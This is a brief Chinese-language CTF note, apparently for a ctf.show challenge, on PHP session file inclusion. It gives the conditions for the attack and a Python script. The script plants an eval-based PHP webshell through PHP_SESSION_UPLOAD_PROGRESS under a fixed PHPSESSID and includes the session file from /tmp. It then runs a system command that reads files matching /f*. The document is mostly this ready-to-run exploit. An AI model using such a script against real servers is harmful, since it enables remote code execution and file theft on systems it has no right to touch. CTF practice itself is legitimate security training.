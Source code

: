 # session文件包含脚本

## 1、使用条件

* 抓包发现cookie已经有phpsessid，说明可以有session文件包含，因为php会将session以文件的形式储存

## 2、脚本

```
import requests
 
url="http://0a20e55a-c524-4c9c-af7d-985ddb231e12.challenge.ctf.show/"
 
data = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[2]);?>',
    '1': 'localhost/tmp/sess_ctfshow',
    '2': 'system("cat /f*");'
    }
 
file = {
    'file': 'ctfshow'
}
cookies = {
    'PHPSESSID': 'ctfshow'
}
 
response = requests.post(url=url,data=data,files=file,cookies=cookies)
print(response.text)
```

